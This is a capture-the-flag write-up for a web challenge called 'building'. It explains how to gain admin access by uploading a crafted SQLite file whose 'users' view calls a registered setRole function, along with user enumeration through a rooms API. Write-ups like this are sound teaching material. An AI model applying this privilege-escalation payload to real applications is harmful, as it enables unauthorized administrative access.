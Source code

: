 # building

Category: web

# Observations
  * target: `/admin` (an admin account is required to access it)
  * we can create users in our "room", but we can't create an admin - only an admin can create another admin
  * there is a pre-created admin account with `id=1`:
```sql
CREATE TABLE users (
    id INTEGER PRIMARY KEY AUTOINCREMENT,
...

INSERT INTO users (username, password_hash, role_id, room_id, created_at, updated_at) VALUES
    ('admin', ...);
```
  * to become an admin there are two possibilities (but we still need to bypass admin-check):
    1. by uploading csv or sqlite files with user data
    2. by changing user role
  * there is a registered function `setRole` - strange, why was this added to the DB driver?
    Given the ability to upload sqlite file, we can try calling `setRole` as an admin.

# Solution
## Prepare users
1. We can download a csv file with `/sample_csv` and upload it again to quickly create users.
2. After this, we can check the target user ID: `/api/rooms/137/users`
```json
{"id":424,"username":"user_344b447754513d3d@137","card_id":509896843049,"role_id":3}
```

## Prepare sqlite file with `setRole`
We need this file just to trigger `setRole` to our user with `id=424`.

```shell
$ sqlite3 vuln.db
sqlite> CREATE VIEW users AS
  SELECT
    setRole(424, 1, 1) AS username,
    '123' AS card_id,
    'user' AS role,
    'pass' AS password;
sqlite> 

```

## Getting the flag
1. Upload `vuln.db` as user data file
2. Login in as user with `id=424`
3. Retrieve the flag from `/admin`
